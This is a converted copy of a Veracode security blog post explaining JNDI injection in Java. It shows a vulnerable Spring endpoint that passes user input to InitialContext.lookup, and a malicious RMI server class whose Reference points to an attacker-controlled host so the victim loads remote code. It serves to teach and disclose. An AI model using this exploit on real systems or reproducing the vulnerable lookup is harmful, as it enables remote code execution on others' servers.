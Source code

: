 > 本文由 [简悦 SimpRead](http://ksria.com/simpread/) 转码， 原文地址 [www.veracode.com](https://www.veracode.com/blog/research/exploiting-jndi-injections-java)

> Java Naming and Directory Interface (JNDI) is a Java API that allows clients to discover and look up ......

Java Naming and Directory Interface (JNDI) is a Java API that allows clients to discover and look up data and objects via a name. These objects can be stored in different naming or directory services, such as Remote Method Invocation (RMI), Common Object Request Broker Architecture (CORBA), Lightweight Directory Access Protocol (LDAP), or Domain Name Service (DNS).

In other words, JNDI is a simple Java API (such as **'InitialContext.lookup(String name)'**) that takes just one string parameter, and if this parameter comes from an untrusted source, it could lead to remote code execution via remote class loading.

When the name of the requested object is controlled by an attacker, it is possible to point a victim Java application to a malicious rmi/ldap/corba server and response with an arbitrary object. If this object is an instance of "javax.naming.Reference" class, a JNDI client tries to resolve the "classFactory" and "classFactoryLocation" attributes of this object. If the "classFactory" value is unknown to the target Java application, Java fetches the factory's bytecode from the"classFactoryLocation"location by using Java's URLClassLoader.

Due to its simplicity, It is very useful for exploiting Java vulnerabilities even when the 'InitialContext.lookup' method is not directly exposed to the tainted data. In some cases, it still can be reached via Deserialisation or Unsafe Reflection attacks.

### Example of the vulnerable app:

```
		@RequestMapping("/lookup")
		@Example(uri = {"/lookup?})
		public Object lookup(@RequestParam String name) throws Exception{
		    return new javax.naming.InitialContext().lookup(name);
		}

```

### Exploiting JNDI injections before JDK 1.8.0_191

By requesting "/lookup/? URL, we can make the vulnerable server connect to our controlled address. To trigger remote class loading, a malicious RMI server can respond with the following Reference:

```
	public class EvilRMIServer {
	    public static void main(String[] args) throws Exception {
	        System.out.println("Creating evil RMI registry on port 1097");
	        Registry registry = LocateRegistry.createRegistry(1097);
	 
	        //creating a reference with 'ExportObject' factory with the factory location of ''
	        Reference ref = new javax.naming.Reference("ExportObject","ExportObject","http://_attacker.com_/");
	 
	        ReferenceWrapper referenceWrapper = new com.sun.jndi.rmi.registry.ReferenceWrapper(ref);
	        registry.bind("Object", referenceWrapper);
	    }
	}

```
